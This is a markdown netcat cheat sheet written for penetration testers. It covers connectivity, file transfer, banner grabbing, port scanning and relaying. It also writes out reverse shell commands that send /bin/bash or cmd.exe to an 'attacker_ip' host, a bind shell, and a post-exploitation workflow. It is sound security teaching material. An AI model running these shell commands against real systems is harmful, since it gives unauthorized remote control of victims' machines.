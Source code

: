 ```yaml
---
icon: person-through-window
---
```


# NetCat

## The Netcat (nc) Masterclass: Professional Networking, Security, and Automation

Netcat (nc), often called the "Swiss Army Knife" of networking, is an essential command-line tool for security professionals, penetration testers, red teams, and sysadmins. It enables rapid testing and manipulation of TCP/UDP connections, banner grabbing, port scanning, file transfers, persistence mechanisms, and shell spawning.

***

### I. Core Capabilities & Workflow

* **TCP/UDP Client and Server:** Connect to any remote port and listen on any local port, supporting both TCP and UDP.\[1]\[2]\[3]
* **Banner Grabbing & Service Discovery:** Collect banners or test server responses for reconnaissance and enumeration.\[4]\[5]
* **File Transfers:** Move files between systems on arbitrary ports, including in environments lacking advanced tools.\[6]\[4]
* **Shell Spawning & Reverse Shells:** Obtain command execution on remote hosts for post-exploitation, lateral movement, or C2 operations.\[5]\[7]
* **Port Scanning & Network Diagnostics:** Scan open ports or test firewall rules quickly.\[6]
* **Proxying, Relaying, and Tunneling:** Forward connections or create simple network relays for pivoting or bypassing controls.\[3]\[8]
* **Integration & Automation:** Combines easily with bash or batch scripts, enabling custom, automated security tasks.\[7]\[8]\[3]

***

### II. Professional Usage Examples

#### Basic Connectivity

```bash
# Connect to remote host (TCP)
nc example.com 80

# Listen for connections on port 1337 (TCP)
nc -l -p 1337

```

#### File Transfer

**Sender:**

```bash
nc -l -p 4444 > received.txt

```

**Receiver:**

```bash
nc host 4444 < file.txt

```

#### Banner Grabbing

```bash
nc -v target.com 22

```

#### Simple Chat Server (multi-client possible with scripting)

**Server:**

```bash
nc -l -p 12345

```

**Client:**

```bash
nc serverip 12345

```

#### Reverse Shell

**On Attacker:**

```bash
nc -l -p 4444 -vvv

```

**On Victim (Linux):**

```bash
nc attacker_ip 4444 -e /bin/bash

```

**On Victim (Windows):**

```bash
nc attacker_ip 4444 -e cmd.exe

```

> (Reverse shell options may require a specific nc version and should be used only with authorization.)\[5]

#### Bind Shell

**On Victim:**

```bash
nc -l -p 5555 -e /bin/bash

```

**On Attacker:**

```bash
nc target_ip 5555

```

#### Port Scan

```bash
nc -zv target.com 20-1024

```

(-z for scan, -v for verbose.)

#### UDP Connectivity

```bash
# Listen for UDP
nc -u -l -p 9999

# Send via UDP
nc -u host 9999

```

#### Relaying/Proxy

```bash
# Forward local port 3000 to example.com:80
nc -l 3000 | nc example.com 80

```

***

### III. Advanced Scenarios

* **Scripting/Automation:** Combine with bash, Python, or PowerShell for automated exploitation, persistence, or custom C2 workflows.\[3]
* **Port Knocking:** Sequence of nc probes to trigger or maintain access, useful for stealthy remote access scripts.\[3]
* **Pivoting:** Use in conjunction with SSH tunnels or on compromised hosts for lateral network movement.\[3]
* **Network Recon/Breach Proof:**
  * Test service reachability through firewalls even where telnet/nmap is blocked.
  * Feed output directly into grep/awk or remote logging for evidence.\[7]\[6]

***

### IV. Real-World Workflow Example

1. **Enumerate Open Services**

```bash
nc -zv target 20-1024

```

1. **Capture Reverse Shell from Internal Host**

```bash
nc -l -p 4444 -vvv
# On target: nc attacker 4444 -e /bin/bash

```

1. **Automatically Transfer PrivEsc/Exploit Scripts**

```bash
nc -l -p 8888 > privchecker.sh
# On target: nc attacker_ip 8888 < privchecker.sh

```

1. **Proxy HTTP Requests for Bypass/Relay**

```bash
nc -l 8080 | nc target.com 80

```

***

### V. Pro Tips & Best Practices

* Always operate with explicit permission; misuse can violate laws and ethics.\[9]\[7]
* Use verbose `v`/`vvv` for debugging or reporting session details.
* Know your netcat variant (ncat, traditional, OpenBSD, GNU) as flags and features vary across environments.
* Always confirm shell and file transfer reliability before using on production/engagement scopes.\[4]\[5]
* Integrate with log files for audit, proof of access, or forensic review.\[4]\[6]
* Pair with traffic capture (tcpdump, Wireshark) for full network and payload analysis.
* Clean up listeners/shells and sanitize environments post-engagement for operational security.

***

This guide empowers security professionals to leverage netcat for secure, stealthy, and flexible network diagnostics, exploitation, and automation across nearly every phase of network testing and post-exploitation.\[2]\[8]\[1]\[9]\[5]\[6]\[7]\[4]\[3]

Sources \[1] What Is Netcat and How To Use It [https://webdock.io/en/docs/how-guides/system-maintenance/what-netcat-is-and-how-to-use-it](https://webdock.io/en/docs/how-guides/system-maintenance/what-netcat-is-and-how-to-use-it) \[2] How To Use Netcat to Test TCP and UDP Connections [https://falconcloud.ae/articles/usage-netcat-for-test-tcp-udp/](https://falconcloud.ae/articles/usage-netcat-for-test-tcp-udp/) \[3] Netcat Usage [https://cycle.io/learn/netcat-usage](https://cycle.io/learn/netcat-usage) \[4] How to Use Netcat Commands: Examples and Cheat Sheets [https://www.varonis.com/blog/netcat-commands](https://www.varonis.com/blog/netcat-commands) \[5] Step-by-Step: Setting Up a Reverse Shell with Netcat [https://infosecwriteups.com/step-by-step-setting-up-a-reverse-shell-with-netcat-ede303ab93cb](https://infosecwriteups.com/step-by-step-setting-up-a-reverse-shell-with-netcat-ede303ab93cb) \[6] Linux Netcat Command Examples: An In-Depth Guide [https://systemweakness.com/linux-netcat-command-examples-an-in-depth-guide-0d6461432f49](https://systemweakness.com/linux-netcat-command-examples-an-in-depth-guide-0d6461432f49) \[7] NetCat: The Ultimate Guide to Networking and Security ... [https://blog.geekinstitute.org/2024/11/netcat.html](https://blog.geekinstitute.org/2024/11/netcat.html) \[8] A collection of examples about using netcat. [https://gist.github.com/71a26cec963d08d27c1081609663b959](https://gist.github.com/71a26cec963d08d27c1081609663b959) \[9] Netcat (nc) Commands Cheat Sheet [https://denizhalil.com/2025/04/14/netcat-nc-commands-cheat-sheet/](https://denizhalil.com/2025/04/14/netcat-nc-commands-cheat-sheet/)
